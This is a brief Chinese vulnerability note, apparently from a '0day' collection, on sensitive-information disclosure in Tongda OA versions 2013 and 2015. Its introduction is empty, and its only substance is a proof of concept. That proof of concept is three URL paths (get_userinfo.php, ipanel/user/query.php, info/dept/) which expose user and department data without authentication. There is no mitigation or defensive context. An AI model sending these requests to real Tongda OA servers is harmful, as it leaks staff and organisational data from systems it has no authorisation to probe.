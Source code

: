 # 通达 oa ⻚面敏感信息泄露

> 原文：[http://book.iwonder.run/0day/通达 oa/4.html](http://book.iwonder.run/0day/通达 oa/4.html)

## 一、漏洞简介

## 二、漏洞影响

2013、2015 版本

## 三、复现过程

POC:

```
http://0-sec.org/general/get_userinfo.php
http://0-sec.org/general/ipanel/user/query.php
http://0-sec.org/general/info/dept/ 
```

